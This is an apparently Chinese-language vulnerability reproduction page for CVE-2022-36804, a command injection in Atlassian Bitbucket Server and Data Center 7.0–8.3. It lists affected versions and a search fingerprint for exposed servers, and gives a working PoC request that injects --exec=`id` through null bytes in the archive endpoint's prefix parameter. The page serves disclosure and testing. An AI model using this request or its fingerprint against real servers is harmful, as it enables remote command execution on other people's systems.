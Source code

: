 # Atlassian Bitbucket archive 远程命令执行漏洞 CVE-2022-36804

## 漏洞描述

Atlassian 发布安全公告，披露了 Bitbucket Server 和 Data Center 在 7.0.0 版中引入了一个严重安全漏洞。

Bitbucket 是 Atlassian 公司提供的一个基于 web 的版本库托管服务，支持 Mercurial 和 Git 版本控制系统。支持私有化部署，根据国内某资产测绘平台数据显示，近一年全球有超过 1w+ 相关服务对外开放。

官方漏洞公告中描述 Bitbucket Server 和 Data Center 多个 API 端点存在命令注入漏洞，漏洞触发条件是攻击者具备公开项目的访问权限或者私有项目的可读权限，影响版本从 7.0 到 8.3

## 漏洞影响

<a-checkbox checked>Atlassian Bitbucket  7.0～8.3</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-Bitbucket"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1663725817384-5de92389-3230-42e1-937c-f21a2db84194.png)

验证POC

```sql
/rest/api/latest/projects/BIZEE/repos/bizee-communication-api/archive?filename=wN3Am&at=wN3Am&path=wN3Am&prefix=ax%00--exec=%60id%60%00--remote=origin
```

![img](../../../.vuepress/public/img/1663725840976-179c5c01-3756-4090-83df-8dbb17e529c0.png)